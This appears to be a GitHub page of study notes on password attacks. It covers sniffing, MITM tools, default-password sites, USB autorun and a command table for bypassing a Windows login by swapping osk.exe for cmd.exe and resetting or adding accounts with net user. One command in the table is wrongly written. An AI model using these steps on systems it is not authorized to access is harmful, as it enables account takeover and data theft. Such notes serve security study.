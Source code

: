 # **Passive Online Attacks**

 - Passive online attacks are performed without interfering with the target

    - Wire Sniffing - In Wire Sniffing, Attacker Sniff network Traffic and try to extract sensitive Information like Telnet, FTP, SMTP credentials.
    - Man-in-the-Middle (MITM) Attack - The attacker involves himself into the communication, insert himself in.
   
   **MITM Attacks:**
    - xerosploit --> Ettercap --> Bettercap
    - Browser Exploitation Framework (BeEF-XSS) - older version on browser  ---> XSS Protection

# **Default Password**

- Default Password are Set by Developer or Manufacturer. Attacker Try those password to gain Access

    - <https://cirt.net/>
    - <https://default-password.info/>
    - <http://www.passwordsdatabase.com/>

# **Password Guessing**
- The attacker uses the information extracted by initial phases and guess the password

# **USB Drive**
- Attacker plug in an USB Drive that contain a password hacking tool. Windows Autorun feature allows running the application automatically, if enabled

# **Password Cracking Techniques for Windows Devices**
  
- Create a windows/linux Bootalbe pendrive.
- Access CMD with Shift+F10 in Windows Bootable or Access Terminal in Linux
- For Windows type below commands:-

|      Commands                            |        Information                                                                                                                                                       |
|:----------------------------------------:|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------:|
|    &rarr; diskpart                          |      // Access Disk Partition menu                                                                                                                                       |             
|    &rarr; list volume                       |      // List Partitions and Partition letter for Connected Storage Drives                                                                                                |
|    &rarr; exit                              |      // Exit Diskpart. Not CMD                                                                                                                                           |
|    &rarr; C:                                |      // Access Local Drive C:                                                                                                                                            |
|    &rarr; dir                               |      // List all files and folder in "local drive C:" if Windows,Program Files Folder are there in Local drive C: its good otherwise try local drive D: or E: or F: .....|
|    &rarr; cd Windows                        |      // Browse for Windows Folder                                                                                                                                        |
|    &rarr; cd System32                       |      // Browse for System32 Folder                                                                                                                                       |
|    &rarr; ren osk.exe osk1.exe              |      // Rename osk.exe to osk1.exe                                                                                                                                       |
|    &rarr; copy cmd.exe to osk.exe           |      // Create a copy of CMD.EXE with a name OSK.EXE                                                                                                                     |
|    &rarr; net user                          |      // Display Users Available on System                                                                                                                                |
|    &rarr; net user Babu_Bhai *              |      // Change Password for user "Babu_Bhai". Here astric (*) is used to change password                                                                                 |
|    &rarr; net user Abcd /add                |      // Create a user with the naem Abcd                                                                                                                                 |
